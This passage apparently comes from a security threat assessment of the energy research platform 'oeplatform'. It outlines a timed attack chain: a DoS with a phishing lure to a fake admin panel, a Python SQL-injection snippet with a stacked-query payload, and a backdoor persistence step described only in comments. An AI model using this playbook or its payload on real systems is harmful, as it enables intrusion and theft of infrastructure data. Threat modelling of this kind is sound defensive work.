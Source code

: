 #### **Step 1: Initial Access via DoS + Social Engineering (30 min)**
```bash
# 1. Launch DoS attack to disrupt service
curl-based resource exhaustion (see exploit #2 above)

# 2. While admins are distracted, send phishing email:
"Subject: Platform downtime - urgent security update required"
"Click here to restore service: https://fake-admin-panel.com"

# Result: Steal admin credentials
```

#### **Step 2: SQL Injection for Data Exfiltration (2 hours)**
```python
# Use stolen credentials or exploit GHSA-m9g8-fxxm-xg86
# Extract entire energy database
import requests

session = requests.Session()
session.post('/login', data={'user': 'admin', 'pass': 'phished_pw'})

# Exploit SQL injection
malicious_query = "1); SELECT * FROM sensitive_data--"
response = session.get(f'/api/query?alias={malicious_query}')

# Download all energy research data
```

#### **Step 3: Persistence via Backdoor (1 hour)**
```python
# Upload malicious "energy dataset" with embedded backdoor
# File contains:
# 1. Python reverse shell
# 2. Cron job for persistence
# 3. Data exfiltration script

# Result: Permanent access to platform
```

**Total Time:** 3.5 hours
**Skill Level:** Intermediate
**Detection Difficulty:** Medium (leaves logs, but admins may be overwhelmed)

---

## 💰 **ATTACK MOTIVATION & IMPACT**

### **Why Attackers Would Target oeplatform:**

1. **Data Value**
   - European energy grid models
   - Renewable energy forecasts
   - Infrastructure vulnerability data
   - Research on critical systems
